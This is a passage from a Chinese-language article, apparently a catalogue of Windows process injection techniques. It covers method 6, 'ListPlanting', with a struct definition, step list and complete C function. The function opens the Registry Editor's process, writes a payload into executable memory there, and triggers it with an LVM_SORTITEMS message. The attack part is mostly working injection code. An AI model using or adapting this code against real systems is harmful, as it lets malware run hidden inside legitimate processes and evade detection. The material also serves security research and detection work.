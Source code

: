 ```
}
```

**方法 6：ListPlanting**

可以使用 LVM_SORTGROUPS、LVM_INSERTGROUPSORTED 和 LVM_SORTITEMS 消息，自定义 ListView 控件中的项目 / 组。以下结构将用于 LVM_INSERTGROUPSORTED。

```
typedef struct tagLVINSERTGROUPSORTED {
  PFNLVGROUPCOMPARE pfnGroupCompare;
  void              *pvData;
  LVGROUP           lvGroup;
} LVINSERTGROUPSORTED, *PLVINSERTGROUPSORTED;
```

下面的代码中，使用注册表编辑器和 LVM_SORTITEMS 来触发 Payload。在这里，存在一个问题，就是这一过程会为列表中的每一项调用回调函数。如果列表中没有项目，那么根本不会调用该函数。实际上，我们可以想办法解决这一问题，例如检查列表中有多少项目、添加项目、删除项目、使用传递给回调函数的参数等。

具体步骤如下：

1. 获取窗口句柄；
2. 获取进程 ID 并尝试打开进程；
3. 分配 RWX 内存并在该位置复制 Payload；
4. 触发 Payload；
5. 释放内存并关闭进程句柄。

```
VOID listplanting(LPVOID payload, DWORD payloadSize) {
    HANDLE        hp;
    DWORD         id;
    HWND          lvm;
    LPVOID        cs;
    SIZE_T        wr;
   
    // 1. get the window handle
    lvm = FindWindow(L"RegEdit_RegEdit", NULL);
    lvm = FindWindowEx(lvm, 0, L"SysListView32", 0);
  
    // 2. Obtain the process id and try to open process
    GetWindowThreadProcessId(lvm, &id);
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, id);
 
    // 3. Allocate RWX memory and copy the payload there.
    cs = VirtualAllocEx(hp, NULL, payloadSize,
        MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);
   
    // 4. Trigger payload
    PostMessage(lvm, LVM_SORTITEMS, 0, (LPARAM)cs);
   
    // 5. Free memory and close process handle
    VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
    CloseHandle(hp);
}
```
